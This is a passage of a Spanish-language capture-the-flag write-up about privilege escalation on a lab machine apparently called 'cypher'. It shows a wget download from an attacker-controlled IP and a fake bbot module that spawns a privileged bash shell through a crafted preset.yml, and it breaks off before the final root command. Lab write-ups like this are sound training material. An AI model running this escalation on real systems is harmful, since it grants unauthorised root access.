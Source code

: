 Iniciaremos un servidor HTTP en el directorio donde tenemos el repositorio

~~~ bash
python3 -m http.server 80
~~~

Crearemos un directorio en la ruta `/tmp` y descargaremos recursivamente los archivos necesarios para la escalada

~~~ bash
graphasm@cypher:~$ mkdir -p /tmp/privesc && wget -P /tmp/privesc http://10.10.14.187/bbot-privesc -r
~~~

Una vez se descargaron los archivos, nos dirigiremos al directorio que creamos en `/tmp`

~~~ bash
graphasm@cypher:~$ cd /tmp/privesc/10.10.14.187/
~~~

El archivo `.py` contiene el comando que se ejecutará en el sistema, debe contener el mismo nombre tanto en la clase como en el archivo `preset.yml`

~~~ python
from bbot.modules.base import BaseModule
import pty

class launch_shell(BaseModule):
    watched_events = []
    produced_events = []
    flags = ["safe", "passive"]
    meta = {"description": "Execute a interactive shell (root)"}

    async def setup(self):
        self.hugesuccess("Executing shell!")
        try:
            pty.spawn(["/bin/bash", "-p"])
        except Exception as e:
            self.error(f"Failed: {e}")
        return True
~~~

El archivo `preset.yml` luce más o menos de la siguiente manera

~~~ bash
description: System Info Recon Scan
module_dirs:
  - .
modules:
  - launch_shell
~~~

En este caso se ejecutará una `bash` como el usuario propietario del binario (que es `root`)


## Root Time

Ejecutaremos el siguiente comando para cargar el módulo falso y ejecutar 
